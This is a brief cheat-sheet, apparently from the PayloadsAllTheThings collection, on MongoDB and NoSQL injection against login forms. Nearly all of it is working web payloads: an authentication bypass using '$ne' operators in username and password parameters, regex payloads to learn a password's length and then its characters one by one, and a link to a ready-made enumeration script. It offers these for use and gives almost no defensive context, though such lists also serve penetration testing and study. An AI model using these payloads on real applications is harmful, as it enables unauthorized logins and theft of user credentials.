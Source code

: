 MongoDB and NoSQL Injection

payloadallthethings

## Bypass authentication 

```username[$ne]=toto&password[$ne]=toto```

## Extract length information :
```username[$ne]=toto&password[$regex]=.{1}```
1. Increase the number until the request change
2. Same principle to search the length of a username

## Find characters in NoSQL
```username[$ne]=toto&password[$regex]=m.*```
or 
```username[$ne]=toto&password[$regex]=m.{length}```

- Ready script, or write your own :) : https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration
